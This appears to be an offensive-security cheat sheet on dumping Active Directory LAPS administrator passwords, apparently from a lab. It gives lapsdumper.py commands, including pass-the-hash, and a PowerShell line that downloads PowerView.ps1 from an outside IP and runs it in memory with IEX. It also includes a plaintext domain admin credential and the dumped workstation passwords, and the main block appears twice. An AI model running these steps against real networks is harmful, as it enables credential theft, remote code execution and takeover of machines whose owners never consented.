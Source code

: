 # LAPS

* Dump laps passwords if you have a user account with the rights to dump the laps passwords
* Enumerate users that can read the laps passwords with bloodhound

### lapsdumper.py

Usage:

Basic:

`$ python laps.py -u user -p password -d domain.local`

Pass the Hash, specific LDAP server:

`$ python laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local`

```
(new-object system.net.webclient).downloadstring('http://10.10.15.45/PowerView.ps1') | IEX
$SecPassword = ConvertTo-SecureString 'J5KCwKruINyCJBKd1dZU' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('RLAB\ngodfrey_adm',$SecPassword)
Get-DomainComputer ws01,ws02,ws03,ws04,ws05,ws06 -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime -Credential $Cred
Get-DomainComputer ws02 -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime -Credential $Cred

ms-mcs-admpwdexpirationtime ms-mcs-admpwd
--------------------------- -------------
ws01        133185858282921848 7Z74HKx6     
ws02        133185858955408843 Khb3SL8p     
ws03        133185859531299786 t25KAW60     
ws04        133185860137129767 l0Q7i5Xd     
ws05        133185860845564372 bzsn82zX     
ws06        133185861369786402 vPKNz69a  
```

### Powerview Dump

* Download Powersploit &#x20;

```
https://github.com/PowerShellMafia/PowerSploit/tree/dev
```

* zip the dir up and transfer the whole thing to target
* expand on target with `expand-archive`

```
import-module .\PowerSploit.psd1
--or--
(new-object system.net.webclient).downloadstring('http://10.10.15.45/PowerView.ps1') | IEX
#now it is loaded into mem either with IEX or with the import-module
$SecPassword = ConvertTo-SecureString 'PASSWORD_HERE' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('RLAB\ngodfrey_adm',$SecPassword)
Get-DomainComputer ws01,ws02,ws03,ws04,ws05,ws06 -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime -Credential $Cred
Get-DomainComputer ws02 -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime -Credential $Cred

ms-mcs-admpwdexpirationtime ms-mcs-admpwd
--------------------------- -------------
ws01        133185858282921848 7Z74HKx6     
ws02        133185858955408843 Khb3SL8p     
ws03        133185859531299786 t25KAW60     
ws04        133185860137129767 l0Q7i5Xd     
ws05        133185860845564372 bzsn82zX     
ws06        133185861369786402 vPKNz69a  
```
